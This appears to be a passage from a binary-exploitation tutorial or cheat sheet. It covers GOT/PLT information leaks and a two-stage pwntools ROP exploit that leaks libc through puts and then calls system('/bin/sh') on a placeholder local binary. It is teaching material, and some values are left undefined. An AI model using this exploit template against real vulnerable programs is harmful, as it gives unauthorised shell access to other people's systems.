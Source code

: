 ## 🔨 Advanced Techniques

### Information Leaks
```bash
# GOT/PLT examination
$ objdump -R binary  # View relocations
$ readelf -r binary  # Detailed relocation info

# PLT leak example
payload = flat(
    pad,
    pop_rdi_ret,
    got_puts,
    plt_puts,
    main_plt
)

# Calculate libc base
libc_base = leaked_puts - puts_offset
system_addr = libc_base + system_offset
bin_sh = libc_base + bin_sh_offset
```

### ROP Chain Building
```python
# Full exploit example
from pwn import *

elf = ELF('./binary')
libc = ELF('./libc.so.6')

# Gadgets
pop_rdi = 0x4006d3
pop_rsi_r15 = 0x4006d1
ret = 0x400416

# Stage 1: Leak libc
payload1 = flat(
    b'A' * padding,
    pop_rdi,
    puts_got,
    puts_plt,
    main
)

# Stage 2: Call system("/bin/sh")
payload2 = flat(
    b'A' * padding,
    pop_rdi,
    bin_sh,
    ret,  # Stack alignment
    system
)

# Send payloads
p = process('./binary')
p.sendline(payload1)
leak = u64(p.recvline().strip().ljust(8, b'\x00'))
p.sendline(payload2)
p.interactive()
```
